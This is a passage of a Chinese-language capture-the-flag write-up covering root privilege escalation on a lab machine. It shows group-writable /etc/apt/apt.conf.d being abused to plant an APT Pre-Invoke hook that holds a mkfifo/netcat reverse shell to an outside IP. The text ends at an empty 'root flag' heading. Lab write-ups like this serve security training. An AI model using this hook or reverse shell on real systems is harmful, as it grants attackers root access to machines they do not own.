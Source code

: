 现在我们通过 SSH 进入，我们可以再看一看:

```
john@writer:~$ id
uid=1001(john) gid=1001(john) groups=1001(john),1003(management)
```

# 利用 apt。会议文件

我们可以看到 John 在一个名为“管理”的组中，就像我们为 Kyle 所做的那样。让我们看看该组提供了哪些访问权限:

```
john@writer:~$ find / -group management 2>/dev/null
/etc/apt/apt.conf.d

john@writer:~$ ls -lsa /etc/apt
total 36
4 drwxr-xr-x   7 root root       4096 Jul  9 10:59 .
4 drwxr-xr-x 102 root root       4096 Jul 28 06:32 ..
4 drwxrwxr-x   2 root management 4096 Jul 28 09:24 apt.conf.d
4 drwxr-xr-x   2 root root       4096 Jul  9 10:59 auth.conf.d
4 drwxr-xr-x   2 root root       4096 Jul  9 10:59 preferences.d
4 -rw-r--r--   1 root root       2777 May 13 21:57 sources.list
4 -rw-r--r--   1 root root       2743 Feb  1  2021 sources.list.curt
4 drwxr-xr-x   2 root root       4096 Jul  9 10:59 sources.list.d
4 drwxr-xr-x   2 root root       4096 Jul  9 10:59 trusted.gpg.d
```

我们看到 John 拥有对该文件夹的写权限。关于 apt.conf.d 文件夹的信息来自[此处](https://debian-handbook.info/browse/wheezy/sect.apt-get.html):

```
Each directory represents a configuration file which is split 
over multiple files. In this sense, all of the files in /etc/apt/apt.conf.d/ are instructions for the configuration of APT. APT includes them in alphabetical order, so that the last ones can modify a configuration element defined in one of the first ones.
```

这里有一篇很好的文章讲述了我们如何使用我们对那个文件夹的权限来执行代码。

让我们在那里创建我们自己的配置文件:

```
john@writer:~$ echo 'apt::Update::Pre-Invoke {"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.39 4444 >/tmp/f"};' > /etc/apt/apt.conf.d/rev_shell

john@writer:~$ ls -lsa /etc/apt/apt.conf.d/
4 -rw-r--r-- 1 root root        630 Apr  9  2020 01autoremove
<SNIP>
4 -rw-r--r-- 1 root root        305 Dec  4  2020 99update-notifier
4 -rw-rw-r-- 1 john john        108 Oct 15 15:06 rev_shell
```

# 根标志
